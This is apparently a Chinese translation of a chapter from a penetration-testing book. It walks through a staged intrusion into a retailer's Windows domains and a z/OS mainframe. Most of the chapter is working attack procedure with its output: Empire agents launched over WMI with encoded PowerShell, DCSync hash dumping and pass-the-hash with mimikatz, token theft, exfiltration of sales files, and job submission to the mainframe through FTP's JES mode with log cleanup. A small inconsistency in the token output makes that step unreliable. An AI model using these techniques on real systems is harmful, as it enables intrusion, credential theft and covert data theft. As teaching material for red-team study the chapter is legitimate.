

# 滥用信任

"无辜者的信任是骗子最有用的工具。"  --斯蒂芬金(Stephen King)

## 漫游网络
让我们快速回顾一下当前的情况：
- 我们使用MS16-032漏洞利用代码在Citrix服务器上提升了PowerShell会话权限。
- 如果我们失去访问权限，我们有一扇通往Citrix服务器的神奇后门：一个WMI事件会执行从前置服务器获取的代码。
- 即使每个帐户的密码都重新设定了，我们仍可以使用黄金票据在 GBSHOP 上发出域管理员命令。
- 当然，我们还有PI 0，以及在商店的一台电脑上运行着的Empire代理。

我们牢牢掌握了GBSHOP领域。使用域管理帐户，我们可以返回到对丹尼尔帐户不可用的共享，并查看在那里可以找到什么：
```
PS > net view \\SV0078 /all
Shared resources at \\SV0078
Share name Type Used as Comment
---------------------------------------------------
ADMIN$ Disk Remote Admin
C$ Disk Default share
CORP$ Disk
FTP_SALES$ Disk
HR$ Disk
IPC$ IPC Remote IPC
IT_Support$ Disk
```

我们访问临时的FTP_SALES$ 共享，却发现它几乎是空的。有一个小脚本似乎可以将文件通过FTP推送到远程主机：
```
Import-Module PSFTP
$FTPServer = '10.30.30.210'
$FTPUsername = 'FTPService'
$FTPPassword = $( Read-Host "Input password, please" )

$FTPSecurePassword = ConvertTo-SecureString -String $FTPPassword
-asPlainText -Force
$FTPCredential = New-Object
System.Management.Automation.PSCredential($FTPUsername,
$FTPSecurePassword)
[…] 
Get-ChildItem -Path $local_out |
% {
$ftp_file = "$ftp_path/$($_.Name)" # determine item fullname
Add-FTPItem -Path $ftp_file -LocalPath $_.FullName -Session $session
Remove-item $ftp_file
}
```

密码每次都是手工输入的，所以我们甚至无法访问10.30.30.210机器上的FTP服务器。我们尝试通过RPC（135）或RDP（3389）连接到服务器，但没有成功。严格的网络过滤器禁止FTP连接以外的任何操作。

IP地址似乎落在GBSales域覆盖的网络中，这肯定是我们无法从GBShop域中的Citrix服务器访问它的原因。
```
c:\Users\Public>nslookup GBSALES.CORP
Address: 10.10.20.199
Name: GBSALES.CORP
Address: 10.30.30.88
```

> 提示：对Windows域的完全限定域名（FQDN）发出nslookup返回DC的IP地址

我们可以做出合理的假设，来自多个商店的销售文件将通过FTP自动发送到这个集中的位置。我们可以一直潜伏到下一次传输，并在文件被删除之前抓取它们，但我们会把这作为最后的手段。让我们继续我们的发现过程。

除了Citrix机器和一些文件服务器之外，GBShop域上似乎没有什么进展。似乎它主要是为其他内部组件提供一种中继或缓冲。这是隔离环境和保护关键资产的聪明方法。

正如我们前面看到的，例如，如果我们尝试从 Citrix 服务器访问 GBSales 域，我们无法获得响应。

但是，两个域（GBSHOP 和 GBSALES）之间存在信任关系，因此，至少几个关键组件之间允许一些连接。

如果我们查看Microsoft的文档，它会清楚地指出在两个域的域控制器之间必须打开以下端口( 作者提示参阅https://technet.microsoft.com/en-us/library/cc756944(v=ws.10).aspx )：
- 445用于文件传输
- 88用于Kerberos身份验证
- 135用于RPC通信
- 389用于LDAP通信
- RPC通信的几个动态端口

现在有意思了。这意味着，要想在GBSALES部门获得成功，我们必须通过GBSHOP域控制器。我不太喜欢在DC上执行攻击载荷，但这次我们真的没有选择…

使用Citrix服务器上PowerShell命令行上的WMI，我们在DC服务器上执行一个远程进程，该进程生成一个Empire代理：
```
#$cmd holds an Empire agent
PS > $cmd= "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTA[…]"
PS > invoke-wmimethod -ComputerName SV0198 win32_process -name
create -argumentlist ($cmd)
```


我们尝试在GBSALES主域控制器上列出共享（端口445）：
```
(Empire: DCshop) > shell "net view 10.30.30.88"
(Empire: DCshop) > 
net view 10.30.30.88
Shared resources at 10.30.30.88
---------------------------------------------------------
NETLOGON Disk Logon server share
SYSVOL Disk Logon server share
The command completed successfully.
```

正如所料，我们现在可以“看到”一些GBSales资源。另外，由于两个域之间的信任关系，我们可以使用GBSHOP域用户查询GBSales机器。不过，我们最多只能拥有标准用户权限！因此，准备迎接一个新的特权升级情景！

## 销售域

### 相互了解
为了帮助我们想象在GBSALES域上跳转的方式，我们从了解域的基本布局开始。我们使用前面显示的侦察模块get_domain_controller列出所有GBSALES域控制器：
```
(Empire: DCshop) > usemodule
situational_awareness/network/powerview/get_domain_controller
(Empire: get_domain_controller) > set Domain GBSALES.CORP
(Empire: get_domain_controller) > execute
Job started: Debug32_rx9ml
Forest : GBSALES.CORP
OSVersion : Windows Server 2012 R2
Domain : GBSALES.CORP
IPAddress : 10.30.30.88
[…]
Forest : GBSALES.CORP
OSVersion : Windows Server 2012 R2
Domain : GBSALES.CORP
IPAddress : 10.30.30.89
[…]
```

与 GBSHOP 相比，域控制器还多，正如您所看到的，此域确实位于不同的林 （GBSALES.CORP）。如果不是这样，我们可以使用来自GBSHOP的krbtgt帐户！

让我们揪出域中注册的每个Windows主机，以了解此新目标的大小：
```
(Empire: DCshop) > usemodule
situational_awareness/network/powerview/get_computer
(Empire: get_computer) > set Domain GBSALES.CORP
(Empire: get_computer) > execute
Job started: Debug32_5u89t
SL0009.GBSALES.CORP
SL0010.GBSALES.CORP
SL0011.GBSALES.CORP
SL0012.GBSALES.CORP
[…]
SL0088.GBSALES.CORP
SL0089.GBSALES.CORP
SL0090.GBSALES.CORP
[…]
SL0210.GBSALES.CORP
Get-NetComputer completed!
```

与只有几台服务器的 GBSHOP 相比，GBSales 处于另一个级别。计算机对象的最终计数是 350！

您可能已经注意到在这些名称中的与众不同的，SL0210（10.30.30.210）FTP服务器是所有销售数据的集线器，我们从前面的脚本中了解到。

对这个服务器的一个快速端口扫描结果显示，我们可以直接从DC将它作为目标。无需在GBSALES域控制器上生成反向代理：
```
(Empire: DCshop) > usemodule situational_awareness/network/portscan
(Empire: portscan) > set Ports 135
(Empire: portscan) > set Hosts SL0210.GBSALES.CORP
(Empire: portscan) > execute
Job started: Debug32_hp38u
Hostname OpenPorts
-------- ---------
SL0210.GBSALES.CORP 135
```


完美！如果我们以某种方式获得 GBSALES 域的特权凭据，我们知道我们可以在这个宝贵的服务器上跳转！

让我们继续我们的侦察过程，并在GBSALES中列出域管理帐户：
```
(Empire: DCshop) > usemodule
situational_awareness/network/powerview/get_user
(Empire: get_user) > set Filter adminCount=1
(Empire: get_user) > set Domain GBSALES.CORP
(Empire: get_user) > execute
Job started: Debug32_qa90a
distinguishedname : CN=Administrator,CN=Users,DC=GBSALES,DC=CORP
name : Administrator
objectsid : S-1-5-21-2376009117-2296651833-4279148973-500
admincount : 1
distinguishedname : CN=joe_adm,CN=Users,DC=GBSALES,DC=CORP
name : joe_adm
objectsid : S-1-5-21-2376009117-2296651833-4279148973-1116
admincount : 1
distinguishedname : CN=phoebe_adm,CN=Users,DC=GBSALES,DC=CORP
name : phoebe_adm
objectsid : S-1-5-21-2376009117-2296651833-4279148973-1121
admincount : 1
distinguishedname : CN=sysback,CN=Users,DC=GBSALES,DC=CORP
name : Sysback
objectsid : S-1-5-21-2376009117-2296651833-4279148973-1117
admincount : 1
```

现在真有趣！你明白了吗？好的，这可能有点帮助。这些是GBSHOP上的域管理帐户：


两个域上似乎都存在同一个sysback帐户（很可能是备份帐户）！如果我们够幸运的话，也许，只是也许他们都有相同的密码…让我们试试！

### 利用信任
我们将转储GBShop域中sysback帐户的密码散列，然后使用它向GBSales shop进行身份验证。由于Windows执行NTLM身份验证的方式，我们不需要破解散列。

回顾下之前讨论过的几段内容，当服务器要求客户端进行身份验证时，后者会发送以下字符串：hash（H+random_number），其中H是密码的hash。

这意味着我们只需要知道密码的散列（称为NTLM散列）就可以形成有效的NTLM响应挑战，并说服服务器允许我们进入。这种攻击已经有20年的历史了，但它仍然被认为是Windows上最强大的伎俩之一。它被称为pass-the-hash攻击。

如何获取随机帐户的哈希值？我们再次使用DCSync！
```
(Empire: DCshop) > usemodule credentials/mimikatz/dcsync
(Empire: dcsync) > set user sysback
(Empire: dcsync) > set domain GBSHOP.CORP
(Empire: dcsync) > run
(Empire: credentials/mimikatz/dcsync) > 
Job started: Debug32_sd5v1
Hostname: SV0199.GBSHOP.CORP / S-1-5-21-2376009117-2296651833-
4279148973
 .#####. mimikatz 2.1 (x64) built on Mar 31 2016 
.## ^ ##. "A La Vie, A L'Amour"
## / \ ## /* * *
 ## \ / ## Benjamin DELPY `gentilkiwi`
 '## v ##' http://blog.gentilkiwi.com/mimikatz (oe.eo)
 '#####' with 18 modules * * */
mimikatz(powershell) # lsadump::dcsync /user:sysback
/domain:GBSHOP.CORP
[DC] 'GBSHOP.CORP' will be the domain
[DC] 'SV0199.GBSHOP.CORP' will be the DC server
[DC] 'sysback' will be the user account
** SAM ACCOUNT **
SAM Username : sysback
User Principal Name : sysback@GBSHOP.CORP
[…]
Credentials:
 Hash NTLM: 26bc129c0ea27a6e66cfaf3080fb7947
 ```

 现在我们有了sysback的密码散列，可以使用它在服务器上生成一个新进程。当这个进程向远程资源进行身份验证时，它将“传递”sysback的散列，从而有效地模拟sysback的标识，当然前提是域之间的密码确实相同。

 值得注意的是，成功生成具有指定哈希值的进程并不意味着密码是正确的。这是一个简单的内存注入技巧。真正的测试——真正的身份验证——将在我们访问远程资源时发生。
```
(Empire: DCshop) > usemodule credentials/mimikatz/pth
(Empire: dcsync) > set user sysback
(Empire: dcsync) > set domain GBSALES.CORP
(Empire: dcsync) > set ntlm 26bc129c0ea27a6e66cfaf3080fb7947
(Empire: dcsync) > run
```


如果我们在交互式图形会话中，我们会看到一个带有sysback帐户的实际新窗口弹出。但由于我们使用的是Empire的反向连接，所以窗口保持在背景中。

这个新的CMD.exe进程中包含了Sysback的定义——一个记忆中的token，它等于Web session cookie，我们可以在最差的网站上找到。这是一种结构参照每个过程后面的用户特权和身份。

为了获得sysback的安全令牌，我们只需从刚刚生成的新进程中“窃用”它：
```
(Empire: dcsync) > interact DCshop
(Empire: DCshop) > steal 3888
(Empire: DCshop) > 
Running As: GBSALES\rachel_adm
Use Credentials/tokens with RevToSelf option to revert token privileges
```

我们现在作为sysback在Empire代理上的帐户有效地连接起来。为了测试sysback在GBSales中的帐户是否确实与GBShop中的帐户共享相同的密码，我们只需在GBSales DC上测试一个远程操作（如列出受保护的C$共享），然后查看是否有效：


第二个域也拿下了！

### FTP服务之外

现在我们拥有了一个域管理帐户，我们只需使用与以前相同的技巧在属于GBSales的服务器上生成一个新的Empire代理。

选哪一个？

还记得从GBSHOP（10.30.30.210）接收销售数据的FTP服务器吗？我们最终可以从网络的角度（从GBShop DC）和系统的角度（我们是GBSALES的域管理员）跟踪和访问服务器。我们使用WMI在此服务器上生成新代理：
```
(Empire: DCshop) > shell wmic /node:SL0210.GBSALES.CORP process call
create "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAcwB[…]"
```

然后与代理交互并直接转到Windows上FTP使用的默认文件夹：
```
(Empire: SalesFTP) > dir C:\inetpub\ftproot\
(Empire: SalesFTP) >
```

又是空！我们就是没法拿到这些文件。尽管如此，我们确信他们被送到这里，所以必须有一种任务，定期将他们运送到另一个地点。让我们列出此计算机上的所有计划任务：
```
(Empire: SalesFTP) > shell schtasks /Query /FO LIST /V
(Empire: SalesFTP) >
Job started: Debug32_ks12qv
Folder: \
HostName: SL0210
TaskName: \centralied_upload
Status: Ready
Author: GBSALES\administrator
Task To Run: "C:\Program Files\Scripts\centralized_upload.bat"
[…]
Comment: centralize all uploads to the big Iron
Scheduled Task State: Enabled
[…]
The command completed successfully.
```

找到了！
```
(Empire: SalesFTP) > shell type "C:\Program
Files\Scripts\centralized_upload.bat"
```


好吧，脚本末尾的delete命令解释了很多！我们得到了我们希望的最后一个IP地址：10.30.30.41。这台新机器显然也在GBSALES网段，所以我们不需要追逐新的目标。FTP凭据是FTPSRV/PASS01。

我们在这台新发现的机器上执行快速端口扫描，以评估哪个入口点最适合：
```
(Empire: SalesFTP) > usemodule situational_awareness/network/portscan
(Empire: portscan) > set Hosts 10.30.30.41
(Empire: portscan) > set TopPorts 1000
(Empire: portscan) > run
Job started: Debug32_70b72
Hostname OpenPorts 
-------- --------- 
10.30.30.41 21
10.30.30.41 22
10.30.30.41 80
10.30.30.41 111
 […]
```

SSH（22）和portmap（111）代替了SMB和RPC端口，这不是Windows机器……当然是某种Linux风格的。除了FTP服务，我们别无选择！

由于SL0210服务器上没有交互会话，因此我们上载一个连接到此ftp服务器（10.30.30.41）的简单脚本（/root/simple_ftp.txt），然后执行“dir”命令以列出当前目录中的文件(在将在Unix上写入的文件发送到Windows平台之前，请确保使用unix2dos命令在换行（0x0A）之前添加回车（0x0D）。)：
```
Open 10.30.30.41
FTPSRV
PASS1
dir
quit
```

```
(Empire: SalesFTP) > upload /root/simple_ftp.txt C:\Users\sysback\AppData\
Local\simple_ftp.txt
(Empire: SalesFTP) > shell cd C:\Users\sysback\AppData\Local\
(Empire: SalesFTP) > shell ftp -s:simple_ftp.txt > result.txt
(Empire: SalesFTP) > shell type result.txt
```


终于，文件…很多文件！不过，它们看起来确实很奇怪！Linux服务器上的文件没有此类名称。那不是Linux机器；那是大型机好吧！

大型机是一种超级计算机，有几百个处理器，内存有时会一直扩展到10TB。如果您仔细查看FTP头，它确实确认我们是V1R10版本。这个版本号对应于z/OS操作系统，超过75%的大型机上都有这个版本号。

在某种意义上，我们是在大型机上还是在Unix上并不重要，因为常规的FTP命令似乎工作得很好。

不过，为了清楚起见，请记住，每个z/OS都有一个Unix“分区”，用于处理TCP/IP通信、FTP服务、Web套接字等。因此，即使我们几乎不了解z/OS，我们也可以通过我们觉得熟悉的Unix分区来“攻击”它。

我们可以使用mget命令将销售文件转储回FTP服务器。由于此命令在每次传输前都要求确认，因此我们添加了一个模拟“回车”键的提示命令：
```
open 192.168.1.200
FTPSRV
PASS01
ascii
mget SALES.*
prompt
quit
```

```
(Empire: SalesFTP) > shell ftp -s:mget_ftp.txt
(Empire: SalesFTP) > shell dir
```


我们将妥善提取这些数据，以后不会发出任何警报。首先让我们看看我们得到了什么：


我们拿到了今天的德国的每家商店的销售数据！

如果我们想监控未来的销售，我们可以很容易地每天回来获取新的数据，但是过去的销售情况呢？信用卡数据？当然，肯定还有其他文件夹或过去几年的档案，我们可以在某些地方访问到。

当前FTP服务中没有其他文件夹，因此我们必须以某种方式逃离此受限制的环境并访问更敏感的文件夹。要做到这一点，我们需要深入研究z/OS的内部结构……振作起来！

前一阵子在Black Hat US上进行了一次有趣的演讲(参阅https://media.blackhat.com/us-13/US-13-Young-Mainframes-The-Past-Will-Come-Back-to-Haunt-You-WP.pdf)，强调了z/OS上FTP的一个有趣特性：命令执行！没错，我们可以利用这个简单的读/写服务向大型机提交作业（程序）。

不幸的是，由于基本的和有限的shell环境，我们不能依赖可用的脚本和工具（MainTP和metaploit脚本）。我们需要弄脏我们的手，并编写一些大型机程序！
> 提示：<br>
> MainTP:参阅https://github.com/mainframed/MainTP <br>
> Metasploit脚本：参阅https://www.bigendiansmalls.com/jcl-scripting-for-metasploit-framework/ <br>

工作相当于一项任务。可以肯定地说，在大型机上运行的所有内容要么是作业，要么是由作业启动的。作业控制语言是用于编写作业的“脚本”语言。

有时被称为z/OS历史上最大的错误(参阅http://archive.computerhistory.org/resources/access/text/2012/11/102658255-05-01-acc.pdf)，这种语言是死板的，几乎没有创造力的空间。好处是你可以反复使用同一个“结构”。我们将从一个基本程序开始，该程序将转储我们在z/OS上的当前权限：
```
//FTPSRV1 JOB
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
 LISTUSER
/*
//SYSIN DD DUMMY
//SYSTSPRT DD SYSOUT=*
```

每个JCL指令都以双斜杠字符开头。第一行表示作业的名称FTPSRV1，后跟强制的“JOB”关键字。第二行表示我们将执行IKJEFT01程序，这是z/OS上的TSO（类似shell）程序。

这个程序将从SYSIN卡获取输入，我们使用“LISTUSER”命令输入。最后，程序会将命令的输出打印到SYSTSPRT卡指定的控制台日志中。

但是，由于我们无法通过FTP访问此控制台日志，因此我们指示JCL将命令的结果输出到一个新文件（FTPSRV.OUTPUT）中，以便以后下载：
```
//FTPSRV1 JOB
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
 LISTUSER
/*
//SYSIN DD DUMMY
//SYSTSPRT DD DSN=FTPSRV.OUTPUT,
// DISP=(NEW,CATLG),
// SPACE=(TRK,1)
```

现在我们已经设置好了，我们可以将这个JCL程序传输到销售服务器（SL0210）。
```
(Empire: SalesFTP) > upload /root/FTPSRV.JOB
c:\users\sysback\appdata\local\
```

它已经准备好送到大型机执行。正常的FTP会话以顺序（SEQ）模式出现，这意味着定期在磁盘之间传输文件。

通过将此模式更改为Job Entry Scheduler（JES），我们可以将文件直接发送到内部读取器，这是一个z/OS组件，它执行接收到的任何内容。

FTP中的命令```quote site file=jes```将使其切换到JES模式。我们以后发送的任何东西都将被视为一项工作，并因此被执行。
```
open 192.168.1.200
FTPSRV
PASS01
quote site file=jes
put C:\Users\sysback\AppData\Local\FTPSRV.JOB
quit
```

```
(Empire: SalesFTP) > upload /root/ftp_jes.txt c:\users\sysback\appdata\local\
(Empire: SalesFTP) > shell ftp -i -s:ftp_jes.txt > result.txt
(Empire: SalesFTP) > shell type result.txt
```


记住作业id–JOB04721–因为稍后我们需要从控制台日志中删除作业。我们给它几秒钟时间进行处理，然后用一个简单的get命令检索输出文件：
```
open 192.168.1.200
FTPSRV
PASS01
get 'FTPSRV.OUTPUT' FTPSRV.OUTPUT.TXT
quit
```


用户FTPSRV在大型机上没有任何特权（attributes=none）。

其实并不奇怪，但整个操作确实证实了一件重要的事情：我们可以执行代码并检索其输出！然而，如何定位重要数据是另一个挑战。

@101 page


> 翻译：Ryan 2020/2/20 

